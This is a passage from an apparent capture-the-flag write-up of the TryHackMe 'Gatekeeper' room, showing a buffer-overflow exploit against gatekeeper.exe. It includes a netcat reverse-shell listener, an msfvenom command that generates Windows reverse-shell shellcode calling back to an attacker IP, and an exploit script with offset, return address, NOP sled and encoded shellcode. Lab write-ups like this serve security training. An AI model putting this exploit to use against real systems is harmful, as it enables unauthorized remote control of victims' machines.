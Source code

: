 Just to confirm what we have:

```text
offset = number of bytes we send to fill buffer
retn = memory address of ESP
padding = NOP Sled added to ensure we hit our payload
payload = shellcode created by MSFVenom
```

Now we start a netcat session listening in another terminal on Kali, run our exploit, we should see we are connected to a reverse shell:

```text
root@kali:/home/kali/thm/gatekeeper# nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.0.19] from (UNKNOWN) [192.168.0.11] 51219
Microsoft Windows [Version 10.0.17134.112]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\Administrator\Desktop>
```

## Exploiting Target

We've successfully exploited the gatekeeper.exe on our local machine. Now it's time to use our script against the one hosted on TryHackMe.

First create a new payload with MSFVenom, use our TUN0 IP which connects us to the TryHackMe network over VPN:

```text
root@kali:/home/kali/thm/gatekeeper# msfvenom -p windows/shell_reverse_tcp LHOST=10.8.165.116 LPORT=1234 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a"
```

Update our exploit script with the IP of the TryHackMe machine and this new payload:

```text
ip = "10.10.245.39"
port = 31337

prefix = ""
offset = 146
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = "\x90" * 16
payload = (
"\xda\xc7\xd9\x74\x24\xf4\xbb\xc3\x46\xfc\x15\x58\x29\xc9\xb1"
<SNIP>
"\x62\x1a\x47\xc6\xe0\xae\x38\x3d\xf8\xdb\x3d\x79\xbe\x30\x4c"
"\x12\x2b\x36\xe3\x13\x7e"
)
postfix = ""
```

Switch to our Kali netcat session waiting to see our reverse shell is connected:
